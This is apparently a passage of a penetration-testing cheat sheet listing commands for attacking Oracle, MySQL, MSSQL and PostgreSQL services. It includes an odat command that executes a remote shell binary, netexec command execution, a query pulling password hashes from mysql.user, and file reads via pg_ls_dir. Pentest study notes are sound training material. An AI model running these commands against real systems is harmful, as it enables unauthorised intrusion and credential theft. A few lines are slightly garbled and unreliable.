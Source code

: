 ```shell
# to execute that shell
odat externaltable -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --exec /temp rem_shell.exe local_shell.exe --sysdba


dbeaver # to connect to oracle database easily

odat search -s $SERVER -d $SID -U $USER -P $PASSWORD --sql-shell # not tested
```
#### Unknown ports
```shell
nc -nv $IP port_number
# try pressing enter
help
version

# port 3003
nc -nv $IP 3003 
help
version

```
#### SQL Services
- MSSQL 1433
- MySQL 3306
- PostgreSQL 5437
```shell
# MySQL
mysql -u root -p 'root' -h 192.168.10.10 -P 3306

select version(); | show databases;  | use databse | select * from users; | show tables |  select system_user(); | SELECT user, authentication_string FROM mysql.user WHERE user = Pre

mysqldump --databases Magic -<usser> -<pass>


# MS SQL
nmap -n -v -sV -Pn -p 1433 –script ms-sql-info,ms-sql-ntlm-info,ms-sql-empty-password $ip
impacket-mssqlclient Administrator:'pass'@x.x.x.x -windows-auth

SELECT @@version;  | SELECT name FROM sys.databases;  | SELECT _FROM offsec.information_schema.tables;  |  select_ from offsec.dbo.users;

netexec mssql x.x.x.x --use-kcache -x 'whoami /all' --port 14330


# PostgreSQL
psql -U postgres -p 5437 -h IP  
select pg_ls_dir('./');  | select pg_ls_dir('/etc/password');  | select pg_ls_dir('/home/wilson');  | select pg_ls_dir('/home/Wilson/local.txt');
```
##### Sql Commands
```sql
-- MySQL 
select version();
select system_user();
show databases;
use databasename;
show tables;
Select * FROM database.usertable 
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'TABLES' AND TABLE_SCHEMA = 'information_schema';
```